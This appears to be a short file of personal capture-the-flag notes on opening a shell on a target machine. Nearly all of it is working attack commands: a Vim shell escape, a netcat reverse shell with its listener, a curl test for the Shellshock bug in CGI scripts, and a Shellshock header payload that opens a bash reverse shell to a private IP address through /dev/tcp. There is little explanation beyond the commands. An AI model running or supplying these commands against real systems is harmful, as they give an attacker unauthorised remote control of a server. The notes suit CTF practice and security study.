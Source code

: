 // These are actual notes, and not relevant to the notes app.

# CTF Notes

## Opening a shell
1. Vim : !/bin/bash
2. netcat reverse shell _(see below)_
3. Bash shellshock, in cgi and sometimes [ssh](https://resources.infosecinstitute.com/bash-bug-cve-2014-6271-critical-vulnerability-scaring-internet/)

#### Netcat reverse shell
On the target machine shell : `nc <host> <any port> -e /bin/bash`

On your machine: `nc -lvp <port no>`

#### Bash shellshock

Test if vulnerable:

    curl -A "() { ignored; }; echo Content-Type: text/plain ; echo  ; echo ; /usr/bin/id" http://<ip>/cgi-bin/test/test.cgi
To get shell: (do `nc -lvp 443` on your machine first)

    curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/192.168.86.99/443 0>&1' http://<ip>/cgi-bin/test/test.cgi
